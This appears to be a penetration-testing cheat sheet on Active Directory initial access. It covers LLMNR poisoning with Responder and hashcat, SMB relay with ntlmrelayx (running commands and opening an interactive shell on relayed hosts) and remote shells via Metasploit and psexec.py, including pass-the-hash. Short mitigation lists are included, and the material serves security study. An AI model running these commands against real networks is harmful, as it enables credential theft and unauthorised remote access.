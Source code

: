 # AD Initial attack vector

## LLMNR poisoning

<figure><img src=".gitbook/assets/Capture d&#x27;écran 2024-05-06 003240.png" alt=""><figcaption></figcaption></figure>

```
sudo responder -I <interface> -dwPv
# crack hash 
hashcat -m 5600 <hash.txt> <wordlist>
```

### Mitigation

```
# Disable LLMNR
# Disable NBT-NS


#If we can't disable
# Require network access control
# Require strong password policy

```

## SMB Relay

* SMB Signing disabled on target

```bash
nmap --script=smb2-security-mode.nse -p445 <ip>/24
# work if message signing is enabled but not required
# In /etc/responder/Responder.conf disable smb and http -> Not capture its but relay its

# create target.txt and put ip addresses

responder -I <interface> -dwPv 

# ntmrelayx for relay hash
sudo ntlmrelayx.py -tf targets.txt -smb2support
# after intercepted
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
# Interactive mode ( connect with netcat after that)
sudo ntlmrelayx.py -tf targets.txt -smb2support -i

```

### Mitigation&#x20;

* Enable smb signing on all devices
* Disable ntlm auth on network
* Account tiering
* Local administration&#x20;

## Gaining shell access

```
use exploit/windows/smb/psexec
set RHOSTS <rhost>
set SMBDomain <domain>
set SMBUser <user>
set SMBPass <pass>
```

Use psexec.py

```
psexec.py <domain>/<user>:'<pass>'@<ip>

```

Or Use hash&#x20;

```
psexec.py <user>@10.0.0.25 --hashes [LM-HASH]:[NTLM-HASH]

```
